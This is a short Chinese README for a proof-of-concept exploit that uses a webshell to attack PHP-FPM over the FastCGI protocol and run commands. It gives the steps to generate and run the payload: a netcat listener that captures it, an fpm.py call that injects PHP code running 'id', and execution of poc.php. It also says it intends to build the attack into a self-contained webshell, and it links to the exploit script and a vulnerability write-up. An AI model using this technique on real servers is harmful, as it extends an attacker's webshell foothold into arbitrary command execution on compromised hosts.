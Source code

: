 # 用WebShell攻击PHP-FPM

来自[@Medicean](https://github.com/Medicean) 大佬的文末一个想法 https://mp.weixin.qq.com/s/T_k_TVv6h7W8paZyHym-sw

快速实现了一个poc，可以实现命令执行

后续用单文件PHP实现一个Fastcgi Client，然后已知PHP文件就用WebShell自身，WebShell命令执行美滋滋

## 使用

测试 php7.3-fpm

`clone`到`/tmp`下，生成payload

```
nc -lvp 6666 > payload.txt

python fpm.py -c '<?php echo `id`; exit;?>' -p 6666 127.0.0.1 `pwd`/poc.php
```

运行`poc.php`

```
php poc.php
```

![](poc.png)

## 参考

fpm.py 来自 https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)